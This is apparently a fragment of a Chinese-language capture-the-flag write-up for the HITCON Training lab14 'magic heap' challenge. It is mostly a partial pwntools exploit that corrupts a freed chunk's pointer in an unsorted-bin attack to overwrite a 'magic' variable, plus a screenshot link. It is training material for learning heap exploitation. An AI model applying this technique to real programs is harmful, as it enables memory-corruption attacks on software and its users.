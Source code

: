 部分exploit：

```python
def pwn(io):
    create_heap(0x10,"thinkycx") # 0
    create_heap(0x80, "thinkycx") # 0 1
    create_heap(0x10, "thinkycx") # 0 1 2
    # gdb.attach(io,'break *0x0000000000400CA2')
    del_heap(1)
    
    unsortedbin_payload = "a"*0x10 + p64(0) + p64(0x91) + p64(0xdeadbeafdeadbeaf) +\
            p64(elf.symbols['magic']-0x10)
    edit_heap(0, 6*0x8,  unsortedbin_payload)
    create_heap(0x80, "thinkycx")
    io.recvuntil("Your choice :")
    io.sendline("4869")
```

![image-20181218154629333](img/2018-12-18-HITCON-Training-lab14-magic-heap-unsorted-bin-attack/image-20181218154629333.png)